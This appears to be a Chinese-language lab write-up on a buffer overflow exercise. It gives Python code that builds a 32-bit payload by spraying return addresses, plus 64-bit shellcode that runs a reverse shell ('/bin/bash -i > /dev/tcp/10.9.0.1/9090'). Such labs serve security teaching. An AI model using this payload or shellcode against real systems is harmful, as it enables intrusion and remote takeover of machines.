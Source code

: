 **32位 Level2**

已知buff地址但未知ebp地址，无法计算要覆盖的返回地址具体的位置，所以这里采用的想法是将所有内容全部覆盖为返回地址，这样总会命中并覆盖，

填充的返回地址越多，命中的可能越大，将shellcode放于`badfile`的末尾（ret = buff + start，start = 517-len(shellcode)），其余地址全部覆盖为返回地址值（无需考虑buff大小范围）

payload构造：

```python
# Put the shellcode somewhere in the payload
start =  517-len(shellcode) # Change this number 
content[start:start + len(shellcode)] = shellcode
print('len of shellcode:',len(shellcode))
# Decide the return address value 
# and put it somewhere in the payload
buff= 0xffffcac8
​
​
ret = buff + start # Change this number
#offset = ebp - buff + 0x4           # Chage this number
#print('offset:',offset)
print('ret:',ret)
# Use 4 for 32-bit address and 8 for 64-bit address
retcontent =  (ret).to_bytes(4, byteorder='little')
for i in range (0, start -0x4, 4):
   content[i:i + 4] = retcontent
```

#### 64位

shellcode：

一些疑惑的问题（已解决）：

* `*` 的使用是为了在执行时将其替换为 null 字节，以满足字符串参数的格式要求
* `"AAAAAAAA"` 等占位符是为了在内存中预留足够的空间以存放实际的字符串地址

```python
shellcode= (
   "\xeb\x36\x5b\x48\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x48"
   "\x89\x5b\x48\x48\x8d\x4b\x0a\x48\x89\x4b\x50\x48\x8d\x4b\x0d\x48"
   "\x89\x4b\x58\x48\x89\x43\x60\x48\x89\xdf\x48\x8d\x73\x48\x48\x31"
   "\xd2\x48\x31\xc0\xb0\x3b\x0f\x05\xe8\xc5\xff\xff\xff"
   "/bin/bash*"
   "-c*"
   # You can modify the following command string to run any command.
   # You can even run multiple commands. When you change the string,
   # make sure that the position of the * at the end doesn't change.
   # The code above will change the byte at this position to zero,
   # so the command string ends here.
   # You can delete/add spaces, if needed, to keep the position the same. 
   # The * in this line serves as the position marker         * 
   "/bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1           *"
   "AAAAAAAA"   # Placeholder for argv[0] --> "/bin/bash"
   "BBBBBBBB"   # Placeholder for argv[1] --> "-c"
   "CCCCCCCC"   # Placeholder for argv[2] --> the command string
   "DDDDDDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')
```
